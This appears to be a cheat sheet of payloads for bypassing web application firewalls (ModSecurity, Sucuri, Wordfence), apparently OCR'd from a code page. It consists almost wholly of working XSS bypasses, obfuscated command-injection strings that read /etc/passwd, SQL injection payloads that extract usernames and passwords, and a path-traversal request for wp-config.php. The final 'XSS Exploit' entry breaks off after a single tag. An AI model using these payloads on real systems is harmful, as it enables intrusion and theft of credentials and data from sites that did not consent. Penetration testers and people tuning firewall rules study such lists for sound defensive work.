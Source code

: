 ## ModSecurity
```javascript
// XSS Bypass for CRS 3.2
<a href="jav%0Dascript&colon;alert(1)">

// RCE Payloads Detection Bypass for PL3
;+$u+cat+/etc$u/passwd$u

// RCE Payloads Detection Bypass for PL2
;+$u+cat+/etc$u/passwd+\#

// RCE Payloads for PL1 and PL2
/???/??t+/???/??ss??

// SQLi Bypass
0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user
1 AND (select DCount(last(username)&after=1&after=1) from users where username='ad1min')
1'UNION/*!0SELECT user,2,3,4,5,6,7,8,9/*!0from/*!0mysql.user/*-
amUserId=1 union select username,password,3,4 from users
%0Aselect%200x00,%200x41%20like/*!31337table_name*/,3%20from%20information_schema.tables%20limit%201
1%0bAND(SELECT%0b1%20FROM%20mysql.x)
%40%40new%20union%23sqlmapsqlmap...%0Aselect%201,2,database%23sqlmap%0A%28%29
%0Aselect%200x00%2C%200x41%20not%20like%2F*%2100000table_name*%2F%2C3%20from%20information_schema.tables%20limit%201
```

## Sucuri
```javascript
// XSS Bypass (POST Only)
<a href=javascript&colon;confirm(1)>

// Smuggling RCE Payloads
/???/??t+/???/??ss??

// Obfuscating RCE Payloads
;+cat+/e'tc/pass'wd
c\\a\\t+/et\\c/pas\\swd

// XSS Bypass
"><input/onauxclick="[1].map(prompt)">

// XSS Bypass
data:text/html,<form action=https://brutelogic.com.br/xss-cp.php method=post>
<input type=hidden name=a value="<img/src=//knoxss.me/yt.jpg onpointerenter=alert`1`>">
<input type=submit></form>
```

## Wordfence
```javascript
// XSS Bypass
<a href=javas&#99;ript:alert(1)>
<a href=&#01javascript:alert(1)>

// XSS Bypass
<a/**/href=j%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At&colon;/**/alert()/**/>click

// HTML Injection
http://host/wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php

// XSS Exploit
<html>
```